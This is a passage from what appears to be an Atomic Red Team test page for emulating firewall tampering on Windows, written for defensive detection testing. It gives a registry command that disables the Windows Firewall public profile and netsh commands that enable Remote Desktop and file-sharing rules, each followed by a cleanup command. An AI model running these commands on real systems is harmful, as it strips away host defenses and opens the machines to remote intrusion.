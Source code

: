 



#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile" /v "EnableFirewall" /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile" /v "EnableFirewall" /t REG_DWORD /d 1 /f
```





<br/>
<br/>

## Atomic Test #4 - Allow SMB and RDP on Microsoft Defender Firewall

auto_generated_guid: d9841bf8-f161-4c73-81e9-fd773a5ff8c1

Allow all SMB and RDP rules on the Microsoft Defender Firewall for all profiles.
Caution if you access remotely the host where the test runs! Especially with the cleanup command which will reset the firewall and risk disabling those services...
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="file and printer sharing" new enable=Yes
```

#### Cleanup Commands:
```cmd
netsh advfirewall reset >nul 2>&1
```





<br/>
<br/>

## Atomic Test #5 - Opening ports for proxy - HARDRAIN

auto_generated_guid: 15e57006-79dd-46df-9bf9-31bc24fb5a80
